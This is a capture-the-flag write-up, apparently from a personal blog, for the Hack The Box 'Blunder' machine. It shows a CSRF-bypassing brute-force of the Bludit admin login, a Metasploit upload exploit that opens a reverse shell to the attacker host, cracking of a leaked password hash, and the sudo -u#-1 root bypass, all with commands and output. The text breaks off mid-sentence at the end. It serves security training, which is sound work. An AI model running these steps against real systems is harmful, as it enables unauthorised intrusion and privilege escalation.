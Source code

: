 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Blunder
- Description: Blunder is an Easy difficulty Linux machine that features a Bludit CMS instance running on port 80. The website contains various facts about different genres. Using GoBuster, we identify a text file that hints to the existence of user fergus, as well as an admin login page that is protected against brute force. An exploit that bypasses the brute force protection is identified, and a dictionary attack is run against the login form. This attack grants us access to the admin panel as fergus. A GitHub issue detailing an arbitrary file upload and directory traversal vulnerability is identified, which is used to gain a shell as www-data. The system is enumerated and a newer version of the Bludit CMS is identified in the /var/www folder. The updated version contains the SHA1 hash of user hugo&amp;amp;#039;s password. The password can be cracked online, allowing us to move laterally to this user. Enumeration reveals that the user can run commands as any system user apart from root using sudo. The sudo binary is identified to be outdated, and vulnerable to CVE-2019-14287. Successful exploitation of this vulnerability returns a root shell.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: A0F0E5D852F0E3783AF700B6EE9D00DA
|_http-generator: Blunder
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

I start a dirsearch:
```bash
dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://10.10.10.191/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/10.10.10.191/-_24-01-30_11-38-35.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-30_11-38-35.log

Target: http://10.10.10.191/

[11:38:35] Starting: 
[11:38:37] 200 -    3KB - /about
[11:38:41] 403 -  277B  - /icons/
[11:38:44] 200 -    7KB - /0
[11:38:52] 200 -    2KB - /admin/
[11:38:52] 301 -    0B  - /admin  ->  http://10.10.10.191/admin/
[11:39:22] 200 -   30B  - /install.php
[11:40:31] 200 -   22B  - /robots.txt
[11:41:20] 200 -  118B  - /todo.txt
[11:41:24] 200 -    4KB - /usb
[11:42:12] 200 -    1KB - /LICENSE
```

I find todo.txt:

```bash
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

I see the username fergus, I also see a ton of blog posts, let me cewl them into a wordlist:
```bash
HTB cewl 10.10.10.191/ > pass.txt
```

From there, the bludit instance has an admin page login. This page uses csrf to attempt to protect against brute force attacks. So I use a brute force bypass script that retrieves the csrf and sends it with every request to help me with the brute force:

```bash
ruby 48746.rb -r http://10.10.10.191/admin/ -u fergus -w pass.txt
[*] Trying password: Contribution
[*] Trying password: Letters
[*] Trying password: probably
[*] Trying password: best
[*] Trying password: fictional
[*] Trying password: character
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```

With the creds, I can execute an authenticated image upload exploit:
```bash
msf6 exploit(linux/http/bludit_upload_images_exec) > set bludituser fergus
bludituser => fergus
msf6 exploit(linux/http/bludit_upload_images_exec) > set bluditpass RolandDeschain
bluditpass => RolandDeschain
msf6 exploit(linux/http/bludit_upload_images_exec) > set rhosts 10.10.10.191
rhosts => 10.10.10.191
msf6 exploit(linux/http/bludit_upload_images_exec) > set lhost tun0
lhost => 10.10.14.7
msf6 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading DSqPRddkCv.png...
[*] Uploading .htaccess...
[*] Executing DSqPRddkCv.png...
[*] Sending stage (39927 bytes) to 10.10.10.191
[+] Deleted .htaccess
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.191:60782) at 2024-01-30 12:08:08 -0500
```
## Privilege Escalation

I find another updated version of bludit in the /var/www directory.

I check the users.php file and see a username Hugo and an encrypted password:

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Crack the password:
![](assets/images/2024-01-30-HTB-blunder-writeup-image-1.png)

I can switch users into Hugo, I check their sudo privs and see the following:

```bash
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -V
sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

This sudo version is vulnerable to a `-u#-1` exploit that essentially tricks the sudo command into allowing me to run a command as root even though it is not allowed:

```bash
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/var/www/bludit-3.10.0a/bl-content/databases#
```

## Beyond Root

Don't leave your passwords on the webpage, 